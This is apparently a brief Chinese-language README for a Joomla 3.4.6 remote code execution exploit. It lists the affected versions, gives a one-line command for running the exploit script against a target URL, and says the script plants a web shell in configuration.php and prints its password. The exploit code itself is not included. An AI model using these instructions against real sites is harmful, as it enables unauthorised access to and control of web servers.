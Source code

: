 ## Joomla 3.4.6-RCE

影响版本：  
- 3.0.0-->3.4.6

exp:
```
python3 Joomla-3.4.6-RCE.py -t http://xxxx
```
shell：http://xxxx/configuration.php    密码脚本已输出